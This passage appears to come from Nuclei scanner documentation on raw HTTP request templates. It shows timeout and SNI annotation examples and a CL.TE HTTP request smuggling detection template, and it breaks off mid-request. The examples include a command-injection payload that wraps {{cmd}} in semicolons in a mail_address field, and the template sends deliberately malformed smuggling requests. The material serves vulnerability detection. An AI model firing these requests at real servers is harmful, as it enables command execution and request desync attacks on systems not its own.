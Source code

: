 Example of a custom `timeout` annotations -

```
- |
  @timeout: 25s
  POST /conf_mail.php HTTP/1.1
  Host: {{Hostname}}
  Content-Type: application/x-www-form-urlencoded
  
  mail_address=%3B{{cmd}}%3B&button=%83%81%81%5B%83%8B%91%97%90M

```

Example of `sni` annotation with `interactsh-url` -

```
- |
  @tls-sni: interactsh-url
  POST /conf_mail.php HTTP/1.1
  Host: {{Hostname}}
  Content-Type: application/x-www-form-urlencoded
  
  mail_address=%3B{{cmd}}%3B&button=%83%81%81%5B%83%8B%91%97%90M

```

[​](#smuggling)Smuggling
------------------------

HTTP Smuggling is a class of Web-Attacks recently made popular by [Portswigger’s Research](https://portswigger.net/research/http-desync-attacks-request-smuggling-reborn) into the topic. For an in-depth overview, please visit the article linked above.

In the open source space, detecting http smuggling is difficult particularly due to the requests for detection being malformed by nature. Nuclei is able to reliably detect HTTP Smuggling vulnerabilities utilising the [rawhttp](https://github.com/projectdiscovery/rawhttp) engine.

The most basic example of an HTTP Smuggling vulnerability is CL.TE Smuggling. An example template to detect a CE.TL HTTP Smuggling vulnerability is provided below using the `unsafe: true` attribute for rawhttp based requests.

```
id: CL-TE-http-smuggling

info:
  name: HTTP request smuggling, basic CL.TE vulnerability
  author: pdteam
  severity: info
  reference: https://portswigger.net/web-security/request-smuggling/lab-basic-cl-te

http:
  - raw:
    - |+
      POST / HTTP/1.1
      Host: {{Hostname}}
      Connection: keep-alive
      Content-Type: application/x-www-form-urlencoded
      Content-Length: 6
      Transfer-Encoding: chunked
      
      0
      
      G      
    - |+
      POST / HTTP/1.1
      Host: {{Hostname}}
      Connection: keep-alive
      Content-Type: application/x-www-form-urlencoded
```